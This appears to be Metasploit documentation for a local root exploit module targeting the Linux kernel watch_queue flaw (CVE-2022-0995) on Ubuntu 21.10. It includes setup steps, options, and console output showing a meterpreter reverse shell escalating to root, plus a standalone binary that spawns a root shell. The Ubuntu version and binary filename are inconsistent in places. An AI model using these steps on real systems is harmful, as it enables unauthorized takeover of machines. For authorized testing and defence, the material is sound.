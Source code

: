 ## Vulnerable Application

This module exploits a vulnerability in the Linux Kernel's watch_queue event notification system.  It relies on a heap
out-of-bounds write in Kernel memory.  The exploit fails occasionally, but it does not crash the target and can be run
multiple times

### Install

The vulnerability exists in linux kernel versions up to 5.17 rc8; this module only contains offsets for Ubuntu 21.10
kernel 5.13.0-37.  More offsets may be added later.

Install Ubuntu 20.10
apt-get install linux-image-5.13.0-37-generic
Hold shift when you reboot and select the proper kernel version

## Verification Steps

1. Make an Ubuntu target
1. Create a meterpreter or shell payload and upload it to the Ubuntu target
1. Set up a handler for the payload
1. Launch the payload as a regular user on the Ubuntu target
1. Do: `use exploit/linux/local/cve_2022_0995_watch_queue`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a root session

## Options

### COMPILE

[Auto|True|False] This selects the binary to use.  True will cause the module to upload the source
code and perform compilation on target, False will cause the module to upload a precompiled binary.
AUTO will cause the module to try compiling the exploit on the target but will fall back to the
precompiled option if a compiler cannot be found.

### DEBUG
[True|False] This selects to use source code with debug prints if uploading and compiling on disk.
TRUE will use source code with prints that assist with troubleshooting failed exploits.
The precompiled binary has no debug print statements.

### WritableDir
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios

### Ubuntu 20.10 x64

```
msf6 payload(linux/x64/meterpreter/reverse_tcp) > 
[*] Started reverse TCP handler on 10.5.135.101:4567 
[*] Sending stage (3020772 bytes) to 10.5.134.157
[*] Meterpreter session 1 opened (10.5.135.101:4567 -> 10.5.134.157:34614 ) at 2022-04-12 21:04:39 -0500

msf6 payload(linux/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 1...
msf6 payload(linux/x64/meterpreter/reverse_tcp) > use exploit/linux/local/cve_2022_0995_watch_queue 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > show options

Module options (exploit/linux/local/cve_2022_0995_watch_queue):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMPILE       Auto             yes       Compile on target (Accepted: Auto, True, False)
   DEBUG_SOURCE  false            no        Use source code with debug prints to help troubleshoot
   SESSION                        yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.101     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Ubuntu Linux 5.17.0-37


msf6 exploit(linux/local/cve_2022_0995_watch_queue) > set session 1
session => 1
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > set verbose true
verbose => true
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[+] The target appears to be vulnerable.
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[*] Creating directory /tmp/.nILfP259
[*] /tmp/.nILfP259 created
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.nILfP259/.7BZngDv' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.nILfP259/.gJKqSJssjC /tmp/.nILfP259/.7BZngDv
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 10.5.134.157
[+] Deleted /tmp/.nILfP259/.gJKqSJssjC
[+] Deleted /tmp/.nILfP259
[*] Meterpreter session 2 opened (10.5.135.101:4444 -> 10.5.134.157:50382 ) at 2022-04-12 21:05:25 -0500
[*] 

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > 
```

## Notes

### Included Binaries
The binary used by this exploit `data/exploits/CVE-2022-0995/cve_2021_3493.x64.elf` can be used separately from
Metasploit.  The binary takes a single argument, the payload or executable you wish to launch as root.
```
msfuser@msfuser-virtual-machine:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@msfuser-virtual-machine:~$ ./cve_2021_3493.x64.elf /bin/bash
root@msfuser-virtual-machine:~$
```
